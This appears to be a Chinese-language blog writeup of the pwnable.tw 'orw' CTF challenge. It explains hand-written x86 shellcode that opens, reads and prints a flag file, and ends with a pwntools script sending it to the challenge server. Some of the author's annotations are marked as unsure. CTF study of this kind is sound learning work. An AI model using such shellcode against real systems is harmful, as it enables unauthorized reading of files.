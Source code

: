 ```yaml
---
title: CTF|pwnable.tw orw writeup
date: 2018-03-14 12:32:31
tags: pwn
categories: CTF
---
```

pwnable.tw orw writeup shellcode的编写
<!-- more -->
呀真的好久没有写博客了，最近在做一些题，都在看别人的题解，做过也忘了，接下来希望好好记录一下，帮助自己理解。

这道题是有关`shellcode`的编写，这部分我之前也没学习过，都是使用机器生成的。就...结合别人的writeup 说一下自己的理解吧。

高级语言形式
```c
char *fn = "/home/orw/flag";
sys_open(fn,0,0)
sys_read(3,fn,0x30)
sys_write(1,fn,0x30)
```
查看 [linux 系统调用](http://syscalls.kernelgrok.com/) 获得各个函数的调用号

```x86asm
首先是第一部分 sys_open
xor ecx,ecx ;清空ecx寄存器
mov eax,0x5;查看以上资料知道 sys_open 对应0x5
push ecx ;把一个空值压入栈中(这里不是很理解)
push 0x67616c66;galf(flag) 接下来就是把字符串作为参数压入栈中 数字就是字符的ASCII码十六进制值
push 0x2f77726f; /wro (orw/)
push 0x2f656d6f; /emo (ome/)
push 0x682f2f2f; h/// (///h)
mov ebx,esp;把内容移到ebx
xor edx,edx;清空 edx
int 0x80;中断 执行syscall

第二部分是sys_read
mov eax,0x3;sys_read
mov ecx,ebx;flag文件中的内容
mov ebx,0x3;文件描述符
mov dl,0x30;用于中断(??)
int 0x80;中断 执行syscall

第三部分是sys_write
mov eax,0x4;sys_write
mov bl,0x1;用于中断
int 0x80


```
最后的脚本：
```python
from pwn import *
io = remote('chall.pwnable.tw',10001)
shellcode = ''
shellcode+=asm('xor ecx,ecx;mov eax,0x5;push ecx;push 0x67616c66;push 0x2f77726f;push 0x2f656d6f;push 0x682f2f2f;mov ebx,esp;')
shellcode +=asm('xor edx,edx;int 0x80;mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
shellcode+=asm('mov eax,0x4; mov bl,0x1;int 0x80;')
io.recvuntil(':')
io.send(shellcode)
io.interactive()
```

